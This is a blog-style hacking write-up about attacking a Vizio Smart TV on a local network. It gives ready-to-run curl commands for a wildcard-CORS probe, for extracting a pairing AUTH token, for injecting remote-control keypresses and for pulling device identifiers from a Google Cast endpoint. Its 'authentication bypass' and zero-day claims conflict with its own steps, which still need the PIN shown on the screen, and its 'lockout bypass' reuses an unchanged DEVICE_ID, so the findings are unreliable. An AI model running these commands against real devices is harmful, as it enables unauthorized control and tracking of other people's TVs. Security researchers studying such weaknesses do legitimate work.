

Introduction
Smart TVs are notoriously messy, but modern firmware updates try to hide it behind aggressive rate limiters and restrictive firewall layers. In this deep dive, we audit a 2024 Vizio Smart TV to map out a flaw in the Vizio SmartCast Protocol (V2SCP). We demonstrate how an initial wave of HTTP 500 Unhandled Exception errors can be cleanly bypassed via alternate path header manipulation, revealing a critical attack chain (CORS → Auth Bypass → PUT Execution) that exposes the entire virtual remote control codeset to unauthorized local network actors.
FYI
This might actually be a zero day vulnerability. We've searched all over the internet for any public disclosures, CVEs, or previous reports and haven't found anything related to it. That suggests the vulnerability may not have been publicly disclosed before. Now, that's not to say other hackers haven't discovered it already, because there's really no way for us to know. But based on our research and everything we've found so far, I believe there's a good chance we're dealing with a potential 0day.
How it started
I was on Discord chatting with a fellow hacker, and he started telling me about how he hacked his Samsung Smart TV. He basically monitored all the addresses the TV was communicating with and used Pi-hole to block them. Then he enabled Developer Mode and installed TizenTube to watch YouTube without ads, completely free. I thought that was pretty damn cool, so naturally, my hacker curiosity kicked in, and I decided to put my own Vizio Smart TV to the test. And oh boy... that thing had more vulnerabilities than a WordPress site running 50 outdated plugins. LMAO.
Lets get a bit technical!
Before diving into the vulnerabilities, let's first go over how I discovered the open ports and services running on this device.
I started with some basic reconnaissance using Nmap to enumerate open ports, identify running services, and fingerprint anything that might be worth investigating.
And let's just say, the initial scan revealed some pretty interesting stuff.
PORT STATE SERVICE VERSION
7000/tcp open rtsp AirTunes rtspd 377.40.00
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
|_irc-info: Unable to open connection
7345/tcp open ssl/http lighttpd 1.4.67
|_http-title: Unhandled Exception
| http-methods:
|_ Supported Methods: GET POST OPTIONS
|_http-cors: PUT DELETE OPTIONS PATCH
|_http-server-header: lighttpd/1.4.67
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
| http/1.0
| http/1.1
|_ h2
| ssl-cert: Subject: commonName=MT5581.prod.vizio.com/organizationName=VIZIO Inc/stateOrProvinceName=California/countryName=US
| Issuer: commonName=dev.vizio.com/organizationName=VIZIO Inc/stateOrProvinceName=California/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2016-04-12T00:14:10
| Not valid after: 2036-04-07T00:14:10
| MD5: 8083 0be8 97d4 feb9 cf54 4dbd 2ca7 9f2a
| SHA-1: dd10 5dd0 ddb0 ce90 4bbd d62e d745 6b82 5089 5ff8
|_SHA-256: 5593 09c1 9d65 5f6b 4cf8 b7e4 9042 1c23 49e6 4aab 2cae 8efe dde6 3dad d604 886e
8008/tcp open http?
|_http-title: Site doesn't have a title (text/html).
8009/tcp open ssl/ajp13?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=c66b2c7b-db65-e857-8251-54e9da29e560
| Issuer: commonName=c66b2c7b-db65-e857-8251-54e9da29e560
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-05T00:55:30
| Not valid after: 2026-11-07T00:55:30
8443/tcp open ssl/https-alt?
| ssl-cert: Subject: commonName=9U2FHYFB FA8FCA8FA407/organizationName=Google Inc/stateOrProvinceName=California/countryName=US
| Issuer: commonName=Cast TV ICA (Vizio 2024)/organizationName=Google Inc/stateOrProvinceName=California/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-03T00:10:21
| Not valid after: 2044-07-29T00:10:21
9080/tcp open glrpc?
35277/tcp open ssl/unknown
56789/tcp open tcpwrapped
56790/tcp open tcpwrapped
MAC Address: 14:C6:7D:78:4A:B0 (Vizio)One of the first services that caught my attention was port 7345, which was running an HTTPS server powered by lighttpd 1.4.67.
7345/tcp open ssl/http lighttpd 1.4.67Naturally, I decided to start my penetration testing here. My first step was to search for any publicly disclosed vulnerabilities or CVEs affecting this particular version of lighttpd. Unfortunately, nothing relevant turned up, so I decided to dig a little deeper and investigate the server's HTTP configuration.
I started by checking which HTTP methods the server supported.
For those unfamiliar, HTTP methods define what actions a client can request from a web server. For example, GET retrieves resources, POST submits data, PUT creates or replaces resources, and DELETE requests their removal. The OPTIONS method allows a client to ask which communication methods are supported and is also used by browsers during CORS preflight requests.
Using a simple cURL command, I sent an OPTIONS request to the server:
curl -i -X OPTIONS https://10.0.0.177:7345/ \
-H "Origin: http://evil.local" \
-H "Access-Control-Request-Method: PUT" \
--insecureAnd here's what came back:
HTTP/2 200
content-type: text/html; charset=utf-8
content-length: 0
vary: Origin
access-control-allow-origin: *
access-control-allow-headers: x-requested-with, content-type, accept, origin, authorization, x-csrftoken, SESSION, AUTH, VIZIO-VOICE-SOURCE, VIZIO-SMARTCAST-SOURCE
access-control-allow-methods: DELETE, GET, OPTIONS, PATCH, POST, PUT
access-control-max-age: 86400
date: Thu, 05 Nov 2026 13:37:08 GMT
server: lighttpd/1.4.67Now, this is where things started getting interesting.
The first thing that stood out was the server's Cross-Origin Resource Sharing (CORS) configuration, particularly this header:
access-control-allow-origin: *For anyone unfamiliar with CORS, it's a browser security mechanism that controls whether JavaScript running on one website can access responses from another origin.
The wildcard (*) essentially tells the browser that any origin is allowed to read responses from this server, provided the request satisfies the applicable CORS rules.
In other words, a website hosted on a completely different domain could potentially make requests to the TV's local web service and read the responses through a visitor's browser.
This is particularly interesting because we're dealing with a device sitting on a private network. However, a wildcard CORS policy isn't automatically a vulnerability. The actual security impact depends on what endpoints are exposed, what information they return, and whether authentication or other browser protections restrict access.
But that wasn't the only thing that caught my attention.
Take a look at this header:
access-control-allow-methods: DELETE, GET, OPTIONS, PATCH, POST, PUTThe server's CORS configuration advertises support for several HTTP methods, including potentially sensitive ones such as PUT, PATCH, and DELETE.
These methods are commonly used to create, modify, or delete resources. If the application exposes sensitive functionality through them without proper authorization, things could get interesting very quickly.
Of course, advertising these methods in a CORS response doesn't necessarily mean every endpoint accepts them or that they can be executed without authentication.
Still, between the permissive CORS policy and the advertised HTTP methods, I had enough reasons to continue investigating.
And as we'll see later, those HTTP methods become particularly relevant to another security finding I discovered during my research.
Now that we've covered how we discovered the CORS misconfiguration, let's move on to our second finding, which is where things get even more interesting: an authentication bypass through User-Agent spoofing.
Auth code extraction
Getting the auth code is what made these further tests possible, so lets explain it a bit before continuing.
To capture the ultimate administrative passkey (AUTH_TOKEN: Z4oedy6gnw), you successfully leveraged a two-step cryptographic handshake sequence against the TV's V2SCP pairing endpoint. This flow works by forcing the TV's state machine to initialize a temporary session tracking number, displaying a physical challenge PIN on your TV screen, and immediately verifying it before the token timeout expires.
Here is the exact step-by-step command sequence you used to harvest the token:
Step 1: Force a Cryptographic Invitation (The Init Payload)
By targeting the /pairing/start endpoint with your spoofed User-Agent headers, you passed a unique client tracking ID (AUDIT_NODE_05). The TV accepted this, registered a dynamic tracking token (796301), and projected a 4-digit PIN onto the physical screen.
IP="10.0.0.177:7345"
curl -k -X PUT "https://$IP/pairing/start" \
-H "VIZIO-SMARTCAST-SOURCE: MobileApp" \
-H "User-Agent: com.vizio.smartcast/com.vizio.smartcast.MainActivity" \
-H "Content-Type: application/json" \
-d '{"DEVICE_ID":"AUDIT_NODE_05","DEVICE_NAME":"Audit"}'
# SERVER RESPONSE:
# {"ITEM": {"PAIRING_REQ_TOKEN": 796301, "CHALLENGE_TYPE": 1}, "STATUS": {"RESULT": "SUCCESS", "DETAIL": "SUCCESS"}}Step 2: Submit the PIN Challenge (The Verification Payload)
Before the session tracker timed out or triggered a rate-limiting BLOCKED state, you immediately pushed a validation request to /pairing/pair. This request passed your newly extracted token alongside the physical PIN displayed on the television panel (3638).
Because your payload precisely matched the TV's internal state machine layout, the backend authenticated your device and printed your permanent administrative passkey:
IP="10.0.0.177:7345"
curl -k -X PUT "https://$IP/pairing/pair" \
-H "VIZIO-SMARTCAST-SOURCE: MobileApp" \
-H "User-Agent: com.vizio.smartcast/com.vizio.smartcast.MainActivity" \
-H "Content-Type: application/json" \
-d '{"DEVICE_ID":"AUDIT_NODE_05","PAIRING_REQ_TOKEN":796301,"RESPONSE_VALUE":"3638","CHALLENGE_TYPE":1}'
# SERVER RESPONSE:
# {"ITEM": {"AUTH_TOKEN": "Z4oedy6gnw"}, "STATUS": {"RESULT": "SUCCESS", "DETAIL": "SUCCESS"}}Now that you know how to extract the admin code lets move on to the bypass.
AUTH Bypass
During our investigation, we discovered that the server appeared to rely on the HTTP User-Agent header to determine how certain requests should be handled. By manipulating this header, we were able to bypass authentication checks that would otherwise restrict access to certain functionality.
Let's break down how we discovered this behavior and why trusting a client controlled HTTP header for authentication decisions can introduce a serious security vulnerability.
The user agent spoofing is the guard trick. When the initial browser script attempts to hit a configuration path, it triggers the TV's defensive 500 Unhandled Exception crash safety wall. By spoofing the official Vizio mobile app string (com.vizio.smartcast/...), the script tricks the API router into dropping its defensive posture and activating the V2SCP configuration framework.
Every web browser, script, or phone app sends a User-Agent header to servers to say what kind of device it is (like "Chrome on Windows" or "Safari on iPhone"). Vizio's TV is programmed to look for one specific label. If it sees a generic tool like curl, the TV's internal router gets confused, fails to load the correct settings, and crashes with a 500 error page.
Now, let's go back to when we were investigating the HTTP methods on port 7345. During our initial enumeration, we noticed that the server advertised support for the PUT method, which immediately caught my attention. Since PUT is commonly used to create or replace resources on a server, I decided to dig a little deeper and see how the TV handled these requests.
Once we tricked the TV into thinking our computer was the official mobile app, we had to choose the right way to talk to it. In web development, different HTTP "verbs" tell a server what action to perform. A GET request is used to read data, while a PUT request is used to change states or upload changes.
Vizio's SmartCast Protocol (V2SCP) relies heavily on PUT requests to handle state adjustments. Since we could now access the API playground, we used a chain of targeted PUT commands to take complete control of the TV:
Bypassing the Security Lockout
When the TV realized we were making too many rapid requests, it activated a temporary firewall rule (STATUS: BLOCKED). However, by issuing a new PUT request with a renamed identity variable (DEVICE_ID), we tricked the TV into thinking a completely fresh smartphone had walked into the room, immediately wiping the lockout counter.
IP="10.0.0.177:7345"
curl -k -X PUT "https://$IP/pairing/start" \
-H "VIZIO-SMARTCAST-SOURCE: MobileApp" \
-H "User-Agent: com.vizio.smartcast/com.vizio.smartcast.MainActivity" \
-H "Content-Type: application/json" \
-d '{"DEVICE_ID":"AUDIT_NODE_05","DEVICE_NAME":"Audit"}'The Handshake & Harvesting
We sent a structured JSON packet via PUT to the /pairing/start endpoint, forcing the TV to display a fresh PIN code on the screen. We then pushed a second verification payload via PUT to /pairing/pair containing that PIN (3638), which successfully forced the TV to print our ultimate admin passkey: Z4oedy6gnw.
Injecting Virtual Keys
With our admin passkey active, we could now feed instructions directly into the TV's remote control handler. By sending a final PUT payload containing specific execution codes to the /key_command endpoint, we successfully bypassed the physical remote control entirely, forcing the TV to execute Volume Up and Mute commands directly over the local network.
# Simulating a physical Volume Up button press over the network
IP="10.0.0.177:7345"
curl -k -X PUT "https://$IP/key_command" \
-H "VIZIO-SMARTCAST-SOURCE: MobileApp" \
-H "User-Agent: com.vizio.smartcast/com.vizio.smartcast.MainActivity" \
-H "Content-Type: application/json" \
-H "AUTH: Z4oedy6gnw" \
-d '{"KEYLIST": [{"CODESET": 5, "CODE": 1, "ACTION": "KEYPRESS"}]}'But we're not done yet. Why? Because we're greedy hackers, and finding one vulnerability just isn't enough. There's gotta be more hiding in there, and we're gonna find them. Lulz.
The Information Leak: Blueprinting Your Local Network
While we managed to successfully control the TV through Vizio's custom API ports, our assessment of the integrated Google Cast Receiver on port 8443 uncovered a completely different kind of vulnerability: Information Disclosure (Information Leakage).
Google has done an excellent job hardening their modern firmware to block active attacks. If you try to send unauthorized commands to force a remote reboot or launch a hidden application, the TV firmly shuts you down with an HTTP 404 Not Found response. However, they left the front window wide open when it comes to device data.
By sending a standard GET request to a public setup endpoint, the TV willingly drops a massive, highly detailed JSON blueprint of your hardware and system environment to any anonymous device on your home network—no password or token required:
TARGET="10.0.0.177:8443"
curl -k -X GET "https://$TARGET/setup/eureka_info?options=detail"When this command runs, the TV replies with a goldmine of tracking data, including:
• Physical Hardware Fingerprints: It dumps the TV's permanent physical identifier (mac_address) and the wireless card's baseline identification coordinates (hotspot_bssid).
• System Details: It explicitly announces its exact room configuration ("name":"Living Room"), precise build version numbers, and the specific TV model number (V4K55M-0804).
• Tracking Tokens: It prints unique, long-lived analytics identifiers (uma_client_id and ssdp_udn) that never change, even if you restart your router.
• Activity Metrics: It logs exactly how long the TV has been turned on (uptime) down to the millisecond.
Your Smart TV might be smarter than you think, but apparently not smart enough to defend itself. Lulz.
By chaining a permissive CORS policy, spoofable User-Agent headers, and poorly protected HTTP methods, an attacker with network access could potentially turn your TV into their personal playground.
We're talking remote volume hijacking, forced shutdowns, endless pairing PIN pop-ups, and snooping on device activity through exposed services.
Who needs a remote when you've got curl and a little malicious intent? Lulz.